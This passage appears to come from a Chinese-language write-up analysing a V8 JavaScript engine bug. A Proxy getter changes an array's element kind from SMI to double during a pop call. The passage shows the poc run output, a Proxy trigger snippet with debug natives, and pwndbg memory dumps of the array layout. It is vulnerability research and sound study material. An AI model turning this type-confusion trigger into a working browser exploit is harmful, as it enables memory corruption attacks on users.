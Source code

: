 ```bash
$ ../v8/out/x64.release/d8  --allow-natives-syntax   ./poc.js
4
3
0
```

猜想应该是在`Proxy`中a的类型从`PACKED_SMI_ELEMENTS`数组改成了`PACKED_DOUBLE_ELEMENTS`数组，最后`pop`返回的时候仍然是按`SMI`进行返回，返回的是相应字段的数据。

在`Proxy`函数中加入语句进行调试：

```js
let p = new Proxy(Object, {
    get: () => {
        %DebugPrint(a);
        %SystemBreak();
        a[0] = 1.1;
        %DebugPrint(a);
        %SystemBreak();
        return Object.prototype;
    }
});
```

第一次断点相关数据如下，在`elements`中可以看到偏移`+8`为起始的数据的位置，`a[2]`对应为`2`。

```asm
pwndbg> job 0x265a080860cd
0x265a080860cd: [JSArray]
 - map: 0x265a082417f1 <Map(PACKED_SMI_ELEMENTS)> [FastProperties]
 - prototype: 0x265a08208f7d <JSArray[0]>
 - elements: 0x265a0808625d <FixedArray[5]> [PACKED_SMI_ELEMENTS]
 - length: 3
 - properties: 0x265a080406e9 <FixedArray[0]> {
    #length: 0x265a08180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x265a0808625d <FixedArray[5]> {
           0: 0
           1: 1
           2: 2
         3-4: 0x265a08040385 <the_hole>
 }
pwndbg> x/10wx 0x265a080860cc ;; a
0x265a080860cc: 0x082417f1      0x080406e9      0x0808625d      0x00000006 ;; map | properties | elements | length
0x265a080860dc: 0x08244e79      0x080406e9      0x080406e9      0x08086109
0x265a080860ec: 0x080401c5      0x00010001
pwndbg> job 0x265a0808625d
0x265a0808625d: [FixedArray]
 - map: 0x265a080404b1 <Map>
 - length: 5
           0: 0
           1: 1
           2: 2
         3-4: 0x265a08040385 <the_hole>
pwndbg> x/10wx 0x265a0808625c  ;; a's elements
0x265a0808625c: 0x080404b1      0x0000000a      0x00000000      0x00000002 ;; map | length | a[0] | a[1]
0x265a0808626c: 0x00000004      0x08040385      0x08040385      0x08241f99 ;; a[2] | a[3] | a[4]
0x265a0808627c: 0x00000006      0x082104f1
```
